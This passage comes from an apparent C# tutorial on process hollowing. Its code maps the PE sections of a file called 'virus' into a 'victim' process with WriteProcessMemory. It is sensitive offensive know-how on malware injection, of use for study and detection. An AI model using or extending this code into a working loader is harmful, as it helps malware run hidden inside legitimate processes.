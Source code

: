 ```cs
    [FieldOffset(28)]
    public UInt32 PointerToLinenumbers;

    [FieldOffset(32)]
    public UInt16 NumberOfRelocations;

    [FieldOffset(34)]
    public UInt16 NumberOfLinenumbers;

    [FieldOffset(36)]
    public DataSectionFlags Characteristics;

    public string Section
    {
        get { return new string(Name); }
    }
}
```

![image](https://user-images.githubusercontent.com/12537739/123085946-6e229180-d455-11eb-8bce-3ae34b1d4f24.png)


With that, we can get the size of a `Section`.
```cs
int sizeOfImageSectionHeader = Marshal.SizeOf<PInvoke.IMAGE_SECTION_HEADER>();
```

We can now loop through all the sections and map them.

```cs
 int numberOfSections = Marshal.ReadInt16(virusFilePointer, virusElfanew + 0x6);
 int sizeOfOptionalHeader = Marshal.ReadInt16(virusFilePointer + virusElfanew + 0x10 + 0x04);
 int sizeOfImageSectionHeader = Marshal.SizeOf<PInvoke.IMAGE_SECTION_HEADER>();
 for (int i = 0; i < numberOfSections; i++)
 {
     IntPtr sectionHeaderPointer = virusFilePointer + virusElfanew + 0x18 + sizeOfOptionalHeader + (i * sizeOfImageSectionHeader);
     PInvoke.IMAGE_SECTION_HEADER sectionHeader = Marshal.PtrToStructure<PInvoke.IMAGE_SECTION_HEADER>(sectionHeaderPointer);

     uint virtualAddress = sectionHeader.VirtualAddress;
     uint sizeOfRawData = sectionHeader.SizeOfRawData;
     uint pointerToRawData = sectionHeader.PointerToRawData;

     byte[] bRawData = new byte[sizeOfRawData];
     Buffer.BlockCopy(virusFileBytes, (int)pointerToRawData, bRawData, 0, bRawData.Length);

     PInvoke.WriteProcessMemory(victimProcessHandle, (IntPtr)(virusImageBase + virtualAddress), Marshal.UnsafeAddrOfPinnedArrayElement(bRawData, 0), (uint)bRawData.Length, out _);

 }
```
